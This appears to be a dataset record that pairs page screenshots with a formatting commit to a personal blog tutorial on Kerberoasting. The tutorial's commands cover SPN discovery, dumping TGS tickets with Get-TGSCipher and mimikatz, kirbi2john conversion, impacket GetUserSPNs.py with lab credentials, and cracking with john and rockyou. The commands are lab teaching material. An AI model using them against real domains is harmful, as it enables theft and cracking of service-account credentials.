

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md, in a window 1280 px wide and 1400 px high, scrolled down 1351 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-6- Kerberos-Attacks-Kerbroasting.md

````diff
--- a/_posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md
+++ b/_posts/Red-Teaming/2021-07-6- Kerberos-Attacks-Kerbroasting.md
@@ -18,7 +18,6 @@ used to associate a service on a specific server to a service account in AD
 An SPN must be unique in the forest
 
 ## SPN Format
-
 ```
 serviceclass/host:port servicename
 MSSQLSvc/domainAD.karim.net:1443 karim\mssqlserver
@@ -31,7 +30,8 @@ HOST:
 
 port:
   * An optional TCP or UDP port number to differentiate between multiple instances of the same service class on a single host computer
-servicename
+
+servicename :
   * The distinguished name or objectGUID of an object in Active Directory Domain Services, such as a service connection point (SCP).
   * The DNS name of the domain for a service that provides a specified service for a domain as a whole.
 
@@ -47,9 +47,8 @@ Any domain user can request tickets for any service
   * No high privileges required
   * Service must not be active
 
-
 ## SPN Discover
-## Find-PotentiallyCrackableAccounts.ps1
+## 1-Find-PotentiallyCrackableAccounts.ps1
 ```
 download script: https://raw.githubusercontent.com/cyberark/RiskySPN/master/Find-PotentiallyCrackableAccounts.ps1
 ```
@@ -71,13 +70,10 @@ download script: https://raw.githubusercontent.com/nidem/kerberoast/master/GetUs
 .\GetUserSPNs.ps1
 ```
 
-
 <img src="/img/kerberosting/13.png" alt="Getting-gz" width="1000" height="200">
-
 
 ## TGSCipher.ps1
 Dump TGS ticket
-
 ```
 download script:https://raw.githubusercontent.com/cyberark/RiskySPN/master/Get-TGSCipher.ps1
 ```
@@ -86,16 +82,15 @@ download script:https://raw.githubusercontent.com/cyberark/RiskySPN/master/Get-T
  Get-TGSCipher -SPN "MSSQLSvc/domainAD.karim.net:1443" -Format John
  ```
 
- <img src="/img/kerberosting/14.PNG" alt="Getting-gz" width="1000" height="200">
-
+<img src="/img/kerberosting/14.PNG" alt="Getting-gz" width="1000" height="200">
 
  ## Mimikatz
 
- <img src="/img/kerberosting/m1.PNG" alt="Getting-gz" width="1000" height="200">
+<img src="/img/kerberosting/m1.PNG" alt="Getting-gz" width="1000" height="200">
 
- ```
- Kerberos::list  ## for SPN discovery.
- ```
+```
+Kerberos::list  ## for SPN discovery.
+```
 
 <img src="/img/kerberosting/m2.PNG" alt="Getting-gz" width="1000" height="200">
 
@@ -111,13 +106,11 @@ kerberos::list /export
 
 ## kirbi2john.py
 Convert the Kirbi to Hash
-
 ```
 kirbi2john.py 3-40a50000-admin@ldap\~domainAD.karim.net\~DomainDnsZones.karim.net-KARIM.NET.kirbi
 ```
 
 <img src="/img/kerberosting/222222.PNG" alt="Getting-gz" width="1000" height="300">
-
 
 ## GetUserSPNs.py
 find user account used as service account
@@ -141,7 +134,6 @@ sudo ntpdate  192.168.128.140
 
 <img src="/img/kerberosting/err2.PNG" alt="Getting-gz" width="1000" height="200">
 
-
 ```
 python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140 -request-user websvc
 ```
@@ -153,3 +145,5 @@ john --wordlist=/usr/share/wordlists/rockyou.txt tgs
 ```
 
 <img src="/img/kerberosting/john.PNG" alt="Getting-gz" width="1000" height="300">
+
+I finished part 1 in Kerberos attacks today waite me in the next part.
````
